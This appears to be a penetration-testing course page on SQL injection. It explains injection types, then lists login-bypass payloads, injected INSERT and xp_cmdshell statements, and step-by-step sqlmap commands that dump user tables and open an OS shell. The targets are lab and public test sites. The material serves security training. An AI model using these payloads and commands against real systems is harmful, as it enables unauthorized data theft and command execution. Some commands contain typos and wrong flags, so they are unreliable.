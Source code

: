 # 15 - SQL Injection

## Module 15 - SQL Injection

<details>

<summary>What is SQL Injection?</summary>

**SQL Injection** is a type of security vulnerability that occurs when an attacker is able to manipulate an SQL query in a way that it executes unintended commands on a database. This can lead to unauthorized access, data disclosure, data manipulation, or even database destruction.

Here's a basic textual explanation:

**1. SQL Query:** In web applications, databases are often used to store and retrieve data. The application sends SQL queries to the database to interact with the data.

**2. User Input:** User input is data that a user provides to a web application, like a search query in a text box or a login form.

**3. Vulnerability:** In a vulnerable application, the SQL query is constructed by simply including the user's input without proper validation or sanitization.

**4. Attack:** An attacker can enter malicious input, which may include SQL code, into the user input fields. If the application doesn't properly validate and sanitize this input, the attacker's SQL code becomes part of the query sent to the database.

**5. Exploitation:** The attacker can manipulate the SQL query to perform malicious actions, such as extracting sensitive data, modifying or deleting data, or even taking control of the database.



</details>

<div align="left">

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption><p><a href="https://spanning.com/blog/sql-injection-attacks-web-based-application-security-part-4/">https://spanning.com/blog/sql-injection-attacks-web-based-application-security-part-4/</a></p></figcaption></figure>

</div>

<details>

<summary>Type of SQL Injection</summary>

### Types of SQL Injection

**Union-based SQL**i: This technique involves using the UNION SQL operator to combine the results of the original query with the results of an attacker-controlled query.

**Error-based SQL**i: This technique involves forcing the database to generate an error, which can reveal information about the database structure.

**Blind SQLi**: In this type of SQLi, the attacker doesn't get the results of the SQL query in the HTTP response. The attacker has to send a payload, and based on the application's response, he can infer if the payload was executed successfully or not.

**Time-based Blind SQLi**: This is a type of blind SQLi where the attacker can infer if the payload was executed successfully or not based on the time the server takes to respond.

**Out-of-Band SQLi**: In this type of SQLi, the attacker doesn't get the results of the SQL query in the HTTP response. Instead, the results are sent to an external server controlled by the attacker.

**Second Order SQLi**: In this type of SQLi, the payload is not directly injected into the SQL query, but it is stored by the application and used in a later SQL query.

**Stored Procedure Attacks**: This involves calling stored procedures from the SQL injection point.

**Function Call Payloads**: This involves calling database functions from the SQL injection point.

**Boolean-based SQLi**: This involves sending a SQL query that will return a different result depending on whether the condition in the query is true or false.

**Content-based SQLi**: This involves sending a SQL query that will return a different result depending on the content of the HTTP response.

</details>

## Manual Injection

* `‘ or 1=1 --`  for login bypass
* admin' --
* admin' #
* admin'/\*
* ' or 1=1--
* ' or 1=1#
* ' or 1=1/\*
* ') or '1'='1--
* ') or ('1'='1—
* `‘insert into login values ('john','apple123'); --` create own user in the database
* `‘create database mydatabase; --`  create database with name of mydatabase
* `‘exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --` execute ping on moviescope

## SQLMap

* Open the vulnerable website
* Copy the cookie from the inspect element
* Open the terminal and run SQLMap

### Basic Commands

* SQLMAP Extract DBS
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --dbs`
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="xookies xxx" --data="id=1&Submit=Submit"--dbs`
* Extract Tables
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope --tables`
* Extract Columns
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --columns`
* Dump Data
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" -D moviescope -T User_Login --dump`
* OS Shell to execute commands
  * `sqlmap -u “`[`http://www.example.com/viewprofile.aspx?id=1”`](http://www.moviescope.com/viewprofile.aspx?id=1%E2%80%9D) `--cookie="cookies xxx" --os-shell`
* Login bypass
  * `blah' or 1=1 --`
* Insert data into DB from login
  * `blah';insert into login values ('john','apple123');`
* Create database from login
  * `blah';create database mydatabase;`
* Execute cmd from login
  * `blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; --`

### **Perform an SQL Injection Attack Against MSSQL to Extract Databases using SQLMap**

* Login a website
* Inspect element
* Dev tools-\&gt;Console: document.cookie
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" –dbs**
  * **-u: Specify the target URL**
  * **--cookie: Specify the HTTP cookie header value**
  * **--dbs: Enumerate DBMS databases**
* Get a list of databases
* Select a database to extract its tables
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –tables**
  * **-D: Specify the DBMS database to enumerate**
  * **--tables: Enumerate DBMS database tables**
* Get a list of tables
* Select a column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" -D moviescope –T User\_Login --dump**
* Get table data of this column
* **sqlmap -u "**[**http://www.moviescope.com/viewprofile.aspx?id=1**](http://www.moviescope.com/viewprofile.aspx?id=1)**" --cookie="value" --os-shell**
* Get the OS Shell
* TASKLIST

Then, if we've SQL username and psw, we can use them to login and query db.

```bash
mysql -U qdpmadmin -h 192.168.1.8 -P passwod
show databases;
use qdpm;
show tables' select * from users;
show dtabases;
use staff;
show tables;
select * from login;
select * from user;
```

## Other Tools

* **Havij**: Havij is an automated SQL Injection tool that helps penetration testers to find and exploit SQL Injection vulnerabilities.
* **jSQL Injection**: jSQL Injection is a lightweight application used to find database information from a distant server.
* **BBQSQL**: BBQSQL is a blind SQL injection framework written in Python.
* **NoSQLMap**: NoSQLMap is an open-source Python tool designed to audit for as well as automate injection attacks and exploit default configuration weaknesses in NoSQL databases.
* **SQLNinja**: SQLNinja is a tool to exploit SQL Injection vulnerabilities on a web application that uses Microsoft SQL Server as its back-end.
* **SQLiX**: SQLiX is a SQL Injection scanner written in Perl.
* **SQLSentinel**: SQLSentinel is an application-level firewall for MySQL that prevents SQL Injection attacks.
* **MyBatis**: MyBatis is a Java persistence framework that includes a built-in SQL Injection scanner.
* **Blisqy**: Blisqy is a tool to aid Web Security researchers to find Time-based Blind SQL injection on HTTP Headers and also exploitation of the same vulnerability.

## Lab - Example of use

### **SQLMap**

site:[http://testphp.vulnweb.com/](http://testphp.vulnweb.com/) php?= (for finding vulnerable site)

(for cookies- console->document.cookie)

&#x20;

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  --dbs   (databases)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  -D acuart –tables   (tables)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  -D acuart -T users --columns   (columns)

(dump whole table)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  -D acuart -T users  --dump  &#x20;

&#x20;                                                           OR                                                                                   &#x20;

(dump individual  column data)

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  -D acuart -T users -C uname  --dump &#x20;

sqlmap -u [http://testphp.vulnweb.com/artists.php?artist=1](http://testphp.vulnweb.com/artists.php?artist=1)  -D acuart -T users -C pass  --dump

## Additional Resources

{% embed url="https://hackertarget.com/sqlmap-tutorial/" %}

{% embed url="https://www.binarytides.com/sqlmap-hacking-tutorial/" %}

{% embed url="https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/" %}

{% embed url="https://medium.com/@rafaelrenovaci/dvwa-solution-sql-injection-blind-sqlmap-cd1461ad336e" %}

{% embed url="https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7" %}

{% embed url="https://gracefulsecurity.com/sql-injection-filter-evasion-with-sqlmap/" %}

{% embed url="https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3" %}

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF" %}

{% embed url="https://www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/" %}

[https://www.youtube.com/watch?v=IR1JsaSQLMc](https://www.youtube.com/watch?v=IR1JsaSQLMc)
